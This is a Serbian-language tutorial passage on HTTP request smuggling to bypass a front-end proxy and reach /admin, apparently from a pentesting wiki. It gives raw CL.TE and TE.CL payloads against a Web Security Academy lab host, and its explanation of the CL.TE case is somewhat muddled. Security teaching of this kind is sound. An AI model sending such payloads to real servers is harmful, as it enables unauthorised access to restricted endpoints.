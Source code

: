 ## Zloupotreba HTTP zahteva za krijumčarenje

### Obilaženje sigurnosnih mera prednje strane putem HTTP zahteva za krijumčarenje

Ponekad, prednji proksi sprovode sigurnosne mere, analizirajući dolazne zahteve. Međutim, ove mere mogu biti zaobiđene iskorišćavanjem HTTP zahteva za krijumčarenje, omogućavajući neovlašćen pristup ograničenim krajnjim tačkama. Na primer, pristup `/admin` može biti zabranjen spolja, pri čemu prednji proksi aktivno blokira takve pokušaje. Ipak, ovaj proksi može zanemariti inspekciju ugnežđenih zahteva unutar krijumčarenog HTTP zahteva, ostavljajući rupu za zaobilaženje ovih ograničenja.

Razmotrite sledeće primere koji ilustruju kako se HTTP zahtevi za krijumčarenje mogu koristiti za obilaženje sigurnosnih kontrola prednje strane, ciljajući specifično putanju `/admin` koja je obično čuvana od strane prednjeg proksija:

**Primer CL.TE**

```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked

0
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

x=
```

U CL.TE napadu, zaglavlje `Content-Length` se koristi za početni zahtev, dok ugneždeni zahtev koristi zaglavlje `Transfer-Encoding: chunked`. Prednji proxy obrađuje početni `POST` zahtev ali ne pregleda ugneždeni `GET /admin` zahtev, omogućavajući neovlašćen pristup putanji `/admin`.

**TE.CL Primer**

```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```
